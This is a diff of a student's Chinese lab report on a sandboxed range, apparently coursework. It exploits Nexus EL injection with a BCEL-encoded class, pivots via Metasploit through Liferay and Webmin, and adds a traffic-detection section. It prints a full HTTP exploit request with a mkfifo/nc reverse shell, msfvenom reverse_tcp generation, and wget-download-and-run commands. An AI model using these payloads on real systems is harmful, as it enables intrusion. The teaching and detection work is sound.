

完善报告内容，添加检测部分

diff --git a/娄晨阳/exp2/README.md b/娄晨阳/exp2/README.md
@@ -1,8 +1,6 @@
-## 网安实践2
+# 网安实践2
 
-### 拓扑搭建
-
----
+## 拓扑搭建
 
 候选靶场镜像经过测试，可用列表如下：
 
@@ -21,7 +19,7 @@
 
 在此基础上选取镜像搭建如下结构的网络：
 
-
+<img src="picture/网络拓扑.png" alt="网络拓扑" style="zoom:33%;" />
 
 其中所用网卡信息如下：
 
@@ -51,13 +49,13 @@
 
 1.浏览器访问靶场环境：
 
-<img src="picture/nexus浏览器访问.png" alt="nexus浏览器访问" style="zoom:33%;" />
+<img src="picture/nexus浏览器访问.png" alt="nexus浏览器访问" style="zoom: 25%;" />
 
 2.该漏洞需要访问更新角色或创建角色接口，在修改用户角色参数roles中进行EL注入或者也可通过创建角色的roles 和 privileges参数进行EL注入，所以我们需要使用默认账号密码admin/admin123登录后台。<img src="picture/nexus登录.png" alt="nexus登录" style="zoom:33%;" />
 
 3.在此选择对修改用户角色参数roles中进行EL注入，我们选择找到设置中的User处：
 
-<img src="picture/nexus更改Lastname.png" alt="nexus更改Lastname" style="zoom:33%;" />
+<img src="picture/nexus更改Lastname.png" alt="nexus更改Lastname" style="zoom: 25%;" />
 
 随便改改LastName，这里从User改为了User1，然后抓包如下，发现注入点：
 
@@ -139,11 +137,11 @@ ${''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEng
 
   也失败了。
 
-7.目前el 2.1 表达式可以实现的功能: newInstance() 无参构造一个类实例、调用对象 非可变参数的方法。
+7.目前el 2.1 表达式可以实现的功能: ①newInstance() 无参构造一个类实例  ②调用对象 非可变参数的方法。
 
-尝试调用恶意class `com.sun.org.apache.bcel.internal.util.ClassLoader`加载编码后的恶意class 导致rce。
+尝试调用恶意class `com.sun.org.apache.bcel.internal.util.ClassLoader`加载编码后的恶意class导致rce。
 
-这里用el 表达式表述就是：
+这里用 el 表达式表述就是：
 
 ```java
 ${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$evalClass').newInstance()}
@@ -194,7 +192,7 @@ ${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInsta
   java --add-exports java.xml/com.sun.org.apache.bcel.internal.classfile=ALL-UNNAMED -jar BCELCodeman.jar e .\eval2.class
   ```
 
-  <img src="picture/nexusBCEL编码.png" alt="nexusBCEL编码" style="zoom: 50%;" />
+  <img src="picture/nexusBCEL编码.png" alt="nexusBCEL编码" style="zoom: 33%;" />
 
 - 加载编码后的恶意class，调用exec方法执行 `ls /tmp` 命令获取flag：
 
@@ -244,25 +242,35 @@ Content-Length: 221
 
 #### 内网渗透攻击
 
+> 注：此处的渗透路径由前期工作探索得到
+
 ##### 第一层
+
+0.Wordpress靶场漏洞利用成功之后，获得反弹shell，查看对应ip为`192.170.84.5`：
+
+<img src="picture/wordpress的ip.png" alt="wordpress的ip" style="zoom:33%;" />
 
 1.`kali-attacker`命令行执行`msfconsole`启动msf。
 
 2.搜索`liferay`漏洞利用模块并使用：
 
-<img src="picture/搜索liferay模块并使用.png" alt="搜索liferay模块并使用" style="zoom:50%;" />
+<img src="picture/搜索liferay模块并使用.png" alt="搜索liferay模块并使用" style="zoom: 33%;" />
 
 3.查看模块利用所需参数：
 
-<img src="picture/liferay查看参数.png" alt="liferay查看参数" style="zoom:50%;" />
+<img src="picture/liferay查看参数.png" alt="liferay查看参数" style="zoom: 33%;" />
 
 4.模块设置参数并运行：
 
-<img src="picture/liferay设置参数并运行.png" alt="liferay设置参数并运行" style="zoom:50%;" />
+<img src="picture/liferay设置参数并运行.png" alt="liferay设置参数并运行" style="zoom: 33%;" />
 
-5.进入到靶场shell之后查看网络情况，发现其为双网卡：
+5.进入到靶场shell之后查看网络情况，发现其为双网卡，其在`192.170.84.0/24`网段下的ip为`192.170.84.6`：
 
 <img src="picture/liferay查看网络情况.png" alt="liferay查看网络情况" style="zoom:33%;" />
+
+由此可以完善我们的第一层网络拓扑：
+
+<img src="picture/第一层网络拓扑图.png" alt="第一层网络拓扑图" style="zoom:33%;" />
 
 6.在`meterpreter`中添加自动路由并查看：
 
@@ -273,15 +281,35 @@ run post/multi/manage/autoroute
 run autoroute -p
 ```
 
-<img src="picture/liferay添加自动路由并查看路由表.png" alt="liferay添加自动路由并查看路由表" style="zoom:50%;" />
+<img src="picture/liferay添加自动路由并查看路由表.png" alt="liferay添加自动路由并查看路由表" style="zoom: 33%;" />
 
 7.执行`bg`将session放于后台，之后搜索`portscan`扫描模块并使用`auxiliary/scanner/portscan/tcp`：
 
-<img src="picture/liferay搜索扫描模块并使用.png" alt="liferay搜索扫描模块并使用" style="zoom:50%;" />
+<img src="picture/liferay搜索扫描模块并使用.png" alt="liferay搜索扫描模块并使用" style="zoom: 33%;" />
 
-8.设置扫描模块参数并运行，得到webmin靶场内网ip地址：
+8.设置扫描模块参数并运行：
 
-<img src="picture/liferay扫描设置参数、运行.png" alt="liferay扫描设置参数、运行" style="zoom:50%;" />
+<img src="picture/liferay设置扫描参数运行.png" alt="liferay扫描设置参数、运行" style="zoom: 33%;" />
+
+9.进入已经获得的liferay终端中使用curl进行进一步的网页信息获取：
+
+发现webmin靶场url为`192.170.84.4:10000`：
+
+<img src="picture/发现webmin.png" alt="发现webmin" style="zoom:25%;" />
+
+发现phpimap靶场url为`192.170.84.2:80`，其中网页内容为经典的phpimap漏洞靶场演示页：
+
+<img src="picture/发现phpimap.png" alt="发现phpimap" style="zoom:33%;" />
+
+下载并查看网页html内容，发现druid靶场url为`192:170.84.3:8888`：
+
+<img src="picture/下载druid网页内容.png" alt="下载druid网页内容" style="zoom:33%;" />
+
+<img src="picture/发现druid.png" alt="发现druid" style="zoom:33%;" />
+
+10.由此可得前两层网络拓扑：
+
+<img src="picture/前两层网络拓扑图.png" alt="前两层网络拓扑图" style="zoom:33%;" />
 
 ##### 第二层
 
@@ -289,15 +317,15 @@ run autoroute -p
 
 1.搜索webmin对应漏洞利用模块并使用：
 
-<img src="picture/webmin搜索模块并使用.png" alt="webmin搜索模块并使用" style="zoom:50%;" />
+<img src="picture/webmin搜索名称模块并使用.png" alt="webmin搜索模块并使用" style="zoom: 33%;" />
 
 2.设置模块所需参数并运行模块：
 
-<img src="picture/webmin设置模块参数并运行.png" alt="webmin设置模块参数并运行" style="zoom:50%;" />
+<img src="picture/webmin设置模块参数并运行.png" alt="webmin设置模块参数并运行" style="zoom: 33%;" />
 
 3.得到Command shell之后执行`session -u 2`升级shell。
 
-<img src="picture/webmin升级shell.png" alt="webmin升级shell" style="zoom:50%;" />
+<img src="picture/webmin升级shell.png" alt="webmin升级shell" style="zoom: 33%;" />
 
 4.进入升级后的shell并查看当前靶机网络情况：
 
@@ -307,21 +335,25 @@ run autoroute -p
 
 5.添加自动路由并查看路由表：
 
-<img src="picture/webmin添加自动路由并查看路由表.png" alt="webmin添加自动路由并查看路由表" style="zoom:50%;" />
+<img src="picture/webmin添加自动路由并查看路由表.png" alt="webmin添加自动路由并查看路由表" style="zoom: 33%;" />
 
 6.搜索端口扫描模块并使用，之后设置参数运行：
 
-<img src="picture/webmin搜索端口扫描模块并使用.png" alt="webmin搜索端口扫描模块并使用" style="zoom:50%;" />
+<img src="picture/webmin搜索端口扫描模块并使用.png" alt="webmin搜索端口扫描模块并使用" style="zoom: 33%;" />
 
-<img src="picture/webmin扫描 设置参数并运行.png" alt="webmin扫描 设置参数并运行" style="zoom:50%;" />
+<img src="picture/webmin扫描 设置参数并运行.png" alt="webmin扫描 设置参数并运行" style="zoom: 33%;" />
 
 扫描结果得到两个可访问ip：`10.10.10.3` 和 `10.10.10.5` 。
 
 7.进入Webmin靶场shell升级后的session会话，恢复到shell终端后curl访问两个候选靶场地址：
 
-<img src="picture/webmin进入升级后终端，curl访问网页.png" alt="webmin进入升级后终端，curl访问网页" style="zoom:50%;" />
+<img src="picture/webmin进入升级后终端，curl访问网页.png" alt="webmin进入升级后终端，curl访问网页" style="zoom: 25%;" />
 
 发现`10.10.10.5:8081` 网页符合Nexus目标靶场的特征。
+
+完善已知网络拓扑图：
+
+<img src="picture/前三层拓扑.png" alt="前三层拓扑" style="zoom:33%;" />
 
 8.之后再次进入升级后的Webmin靶场shell，使用`portfwd`映射Nexus靶场8081端口到本地9001端口：
 
@@ -329,7 +361,7 @@ run autoroute -p
 portfwd add -L 0.0.0.0 -l 9001 -p 8081 -r 10.10.10.5
 ```
 
-<img src="picture/进入升级后的webmin，映射nexus端口8081到本地端口9001.png" alt="进入升级后的webmin，映射nexus端口8081到本地端口9001" style="zoom:50%;" />
+<img src="picture/进入升级后的webmin，映射nexus端口8081到本地端口9001.png" alt="进入升级后的webmin，映射nexus端口8081到本地端口9001" style="zoom: 33%;" />
 
 9.之后本地宿主机就可以通过访问{攻击机ip}:{映射端口}，即`192.168.109.10:9001`访问Nexus靶场。
 
@@ -345,7 +377,7 @@ portfwd add -L 0.0.0.0 -l 9001 -p 8081 -r 10.10.10.5
   msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.109.10 LPORT=5555 -f elf -o meter.elf
   ```
 
-  <img src="picture/nexus_映射_生成meter.elf文件.png" alt="nexus_映射_生成meter.elf文件" style="zoom:50%;" />
+  <img src="picture/nexus_映射_生成meter.elf文件.png" alt="nexus_映射_生成meter.elf文件" style="zoom: 33%;" />
 
   参数说明：
 
@@ -360,7 +392,7 @@ portfwd add -L 0.0.0.0 -l 9001 -p 8081 -r 10.10.10.5
   python3 -m http.server 8000
   ```
 
-  <img src="picture/nexus_映射_Kali攻击机开启http服务.png" alt="nexus_映射_Kali攻击机开启http服务" style="zoom:50%;" />
+  <img src="picture/nexus_映射_Kali攻击机开启http服务.png" alt="nexus_映射_Kali攻击机开启http服务" style="zoom: 33%;" />
 
 - kali攻击机在终端开启端口监听：
 
@@ -392,19 +424,28 @@ portfwd add -L 0.0.0.0 -l 9001 -p 8081 -r 10.10.10.5
 
 - 在msf中使用监听模块并设置相应的参数运行：
 
-  <img src="picture/nexus_映射_使用监听模块，设置对应payload类型.png" alt="nexus_映射_使用监听模块，设置对应payload类型" style="zoom:50%;" />
+  <img src="picture/nexus_映射_使用监听模块，设置对应payload类型.png" alt="nexus_映射_使用监听模块，设置对应payload类型" style="zoom: 33%;" />
 
 - get反弹shell之后下载payload文件，为其添加可执行权限，之后运行`meter.elf`：
 
-  <img src="picture/nexus_映射_nc监听，下载执行脚本.png" alt="nexus_映射_nc监听，下载执行脚本" style="zoom:50%;" />
+  ```bash
+  # 攻击机中运行
+  nc -lvnp 6666 
+  # 靶场容器中运行
+  wget http://192.168.109.10:8000/meter.elf -O /tmp/meter
+  chmod +x /tmp/meter
+  /tmp/meter
+  ```
+
+  <img src="picture/nexus_映射_nc监听，下载执行脚本.png" alt="nexus_映射_nc监听，下载执行脚本" style="zoom: 33%;" />
 
 - 在msf中可以看到目标靶场反连成功，开启了相应的session：
 
-  <img src="picture/nexus反连成功，开启session.png" alt="nexus反连成功，开启session" style="zoom:50%;" />
+  <img src="picture/nexus反连成功，开启session.png" alt="nexus反连成功，开启session" style="zoom: 33%;" />
 
 - 查看目前已有的sessions列表：
 
-  <img src="picture/查看session列表.png" alt="查看session列表" style="zoom:50%;" />
+  <img src="picture/查看session列表.png" alt="查看session列表" style="zoom: 33%;" />
 
 - 进入Nexus目标靶场反连过来的meterpreter中，查看网络情况：
 
@@ -412,4 +453,142 @@ portfwd add -L 0.0.0.0 -l 9001 -p 8081 -r 10.10.10.5
 
   发现其为双网卡靶机，之后可进行下一层的内网渗透。
 
-  
+#### 漏洞利用流量检测
+
+1.靶机中使用`tcpdump`对容器中`Devnet`网卡进行监听并将监听结果写入pcap包；
+
+攻击机执行`nc -lvnp 6666` 监听端口接收回连shell；
+
+`yakit`发送自制POC进行反弹shell：
+
+```
+POST /service/extdirect HTTP/1.1
+Host: 192.168.109.10:9001
+Cookie: NXSESSIONID=3ca5fe18-1417-4694-88a4-f6fd8f2a6b28
+Content-Type: application/json
+Origin: http://192.168.109.10:9001
+Referer: http://192.168.109.10:9001/
+X-Nexus-UI: true
+Accept: */*
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
+X-Requested-With: XMLHttpRequest
+Accept-Encoding: gzip, deflate
+Accept-Language: zh-CN,zh;q=0.9
+Content-Length: 221
+
+{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"10","firstName":"Administrator","lastName":"User1","email":"admin@example.org","status":"active","roles":["${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$ff$8dSMS$d3P$U$3d$8f$b6I$J$v$U$K$94$60QA$c5P$uU$E$3fZD$Fq$86$Z$40$87$3a$3a$ZWi$fa$c0$60I$3ai$ca$b0r$e5$7fq$ab$9b$d6$91$d1$a5$L$7f$87$L$fd$P$8ex_Z$3e$8a$ca$d8I$df$cb$bb$f7$9c$7b$eeG$de$d7_$l$3f$D$98$c5$p$F$j$I$c9$I$ab$88$40b$88o$9b$bbf$b6l$3a$5b$d9$c7$c5mn$f9$M$d2$bc$ed$d8$fe$CCH$9fx$a6$m$8aN$Z$8a$8a$$$a8$M$bd$c7$f0$8d$9a$e3$db$3b$9cA$d9$e2$fe$d1a$40$9fX$fd$D$93$97$d1$dd$sU$f0$3d$db$d9$8a$o$ce$mg$8b$b6$93$ad$be$8c$a2$8f$a1$pc$J$c1$7e$V$D$Yd$I$f3$3dn1$e8$fa$8b$d5$d3$dc$fcI$99$t$9ek$f1j$95d$86$Y$G$D$bb$edf$Xk$9b$9b$dc$e3$a5$Nn$96$b8$tc$98A$3b$f4$ad8$95$9aO$91$b8$b9$d3t$xHaD$c6y$V$Xp$b1$ad$ceVp$86n$aa$f3$E$8f$nyXk$7b$c0$bc$C$Nc$a2$bf$97$Y$86$f4$bfBDc$93$b8$o$40$e3$M$89cP3$9b$c0$9f$82$aebBd$p$94$97$3d$cf$f5$9al$Z$93$q$7e$ba$p$8b5$bb$i$U$92FH$E$9fV$91$c55$86$uQJ$ab$b6C$c3$e9o$hN$ab$91$820$a3$e2$Gfi$f4f$a5$c2$9d$SCF$3f$bb$e3m$92A$88$9b$o$c4$z$86$94$bet6$f0$8e$8a$5c$90$97$ef6$9d2$e6$Z$o$7c$d7$y$cf$d0$c8$97$dc$Se$da$p$S$5e$af$ed$U$b9$f7$d4$y$96$c92$fe_$Z$e5$Zb$F$df$b4$5e$ad$99$95$WQY$de$b3x$c5$b7$5d$a7$wc$89$9a$7d$cc9$f2$Q$aa$e0$d6$3c$8b$3f$b2$DJ$90$cc$b4$Ab$Uy$ba1$e2$d7$B$s$ee$M$adw$e94B$3b$a3$3d$92n$80$bd$a7$X$86$FZ$a5$c0$Y$a6u$A$f7$88$o$a0$df$88$s$d3$fe$e6$Dd$e9$TbF$a8$af$a7$60$84$fbz$LFd$b2PGbm$lIc$l$9a1U$c7$b9$GF$h$b8$bc$7e$c2t$b5i$ca$85$f7$916$g$98$caE2ud$8c$9c$f4$F$J$z$a2Iu$5c$8f$xu$cc$3d$7f$7b$f0C$L$ff$cb$f5$5d$8b$d4q$fb$5dP$88$c8t$i$9d$b4F$e9$5b$ed$c2$YTL$n$869t$e3$3e$e2XA$C$W$fa$f1$g$83t$G$f9C$Hd$94d$d0$j$8b$c9H$c9H$GO$g$f8$J$8dl$c3x$d0$aa$7b$91$fe$P$D$95$e5$df$5d$90$g$iv$E$A$A').newInstance().exec('rm -f /tmp/f;mkfifo /tmp/f;/bin/sh -i < /tmp/f 2>&1 | nc 192.168.109.10 6666 > /tmp/f')} "]}],"type":"rpc","tid":24}
+```
+
+<img src="picture/nexus漏洞利用流量抓包.png" alt="nexus漏洞利用流量抓包" style="zoom: 25%;" />
+
+2.使用wireshark分析流量包，筛选http流量：
+
+<img src="picture/nexus筛选http流，查看可疑数据包.png" alt="nexus筛选http流，查看可疑数据包" style="zoom:33%;" />
+
+3.按数据包长度排序，发现可疑流量，对其进行http流追踪：
+
+<img src="picture/nexus对可疑流量包进行http追踪流量.png" alt="nexus对可疑流量包进行http追踪流量" style="zoom:25%;" />
+
+4.发现其中包含恶意负载，执行反弹shell命令。
+
+<img src="picture/nexushttp追踪流发现反弹shell的命令执行.png" alt="nexushttp追踪流发现反弹shell的命令执行" style="zoom: 25%;" />
+
+## 遇到的问题及解决方案
+
+1.在进行加载编码后的恶意class部分时，使用编码后的class，执行命令时发现当执行一整条命令时不能执行连接符、管道符等 Shell 语法，如执行`echo 1 && echo 2` 结果为 `1 && echo2`。
+
+原因：
+
+原始`eval.java`:
+
+```java
+import java.io.BufferedReader;
+import java.io.InputStreamReader;
+
+public class eval {
+    public String exec(String cmd) throws Exception {
+        BufferedReader br = new BufferedReader(
+                new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
+        StringBuilder sb = new StringBuilder();
+        for (String line; (line = br.readLine()) != null; )
+            sb.append(line).append('\n');
+        return sb.toString();
+    }
+}
+```
+
+其中`Runtime.getRuntime().exec(cmd)`核心的命令执行方式，Java 在后台会自动将这个字符串**按空格拆分**，类似执行：
+
+```bash
